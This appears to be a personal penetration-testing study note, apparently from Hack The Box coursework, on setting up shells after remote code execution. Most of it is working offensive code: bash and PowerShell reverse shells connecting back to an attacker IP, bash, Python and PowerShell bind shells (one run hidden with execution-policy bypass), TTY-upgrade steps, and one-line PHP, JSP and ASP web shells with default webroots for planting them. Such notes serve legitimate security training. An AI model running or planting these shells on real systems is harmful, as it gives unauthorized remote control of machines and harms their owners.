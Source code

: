 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

Once a host has been compromised and we have RCE, setting up some form of persistent communication is a key part of [[5 - Post-Exploitation]].

## Types of Shells
### Reverse Shell
Connects back to our system and gives us control through a reverse connection. We setup a listener on our machine and then connect back to it from the target.
![[Netcat (nc)#Create a listener]]

Connecting back to our system with a shell is slightly more complex as it depends what we have available. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shells.

**Bash**
```bash
bash -c 'bash -i >& /dev/tcp/[IP]/[Port] 0>&1'
```

**Netcat**
![[Netcat (nc)#Create a simple reverse shell]]

**Powershell**
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

## Bind Shells
Unlike a reverse shell, a Bind shell connects us to the *targets'* listening port. This means we are connecting to the target rather than them connecting to us (the opposite direction to a RS).

To create a bind shell, we need to listen on a port on the target and bind a shell to that port. Then on the tester machine we can us [[Netcat (nc)]] to connect to it.

**Bash**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

**Python**
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

**Powershell**
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

### Upgrading TTY
To give us more terminal features (eg. a mouse, history, etc) we need to upgrade the TTY.
There are multiple methods to do this. For our purposes, we will use the `python/stty` method. In our `netcat` shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:

```shell-session
alipali737@htb[/htb]$ python -c 'import pty; pty.spawn("/bin/bash")'
```

After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:
```shell-session
www-data@remotehost$ ^Z

alipali737@htb[/htb]$ stty raw -echo
alipali737@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```

Once we hit `fg`, it will bring back our `netcat` shell to the foreground. At this point, the terminal will show a blank line. We can hit `enter` again to get back to our shell or input `reset` and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.

We may notice that our shell does not cover the entire terminal. To fix this, we need to figure out a few variables. We can open another terminal window on our system, maximize the windows or use any size we want, and then input the following commands to get our variables:

```shell-session
alipali737@htb[/htb]$ echo $TERM

xterm-256color
```

```shell-session
alipali737@htb[/htb]$ stty size

67 318
```

The first command showed us the `TERM` variable, and the second shows us the values for `rows` and `columns`, respectively. Now that we have our variables, we can go back to our `netcat` shell and use the following command to correct them:

```shell-session
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

Once we do that, we should have a `netcat` shell that uses the terminal's full features, just like an SSH connection.

## Web Shells
This is a web script that accepts commands through HTTP params, executes the command and returns the output. There are two components to using these: Uploading the web shell and executing the shell.

A great benefit of these kind of shells is that they utilise the existing connection that would be allowed through a firewall.

### Writing a web shell
Web shells tend to be simple one line commands that take a command and execute them on the system. The following examples are all *GET* requests:

**PHP**
```
<?php system($_REQUEST["cmd"]); ?>
```

**JSP**
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

**ASP**
```
<% eval request("cmd") %>
```

### Uploading the web shell
We need to get our web shell script into the web root to be able to execute it. This can either be through a file upload vulnerability, or even an RCE could let us write the file on the target system ourself.

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| Apache     | /var/www/html/         |
| Nginx      | /usr/local/nginx/html/ |
| IIS        | c:\inetpub\wwwroot\    |
| XAMPP      | C:\xampp\htdocs\       |
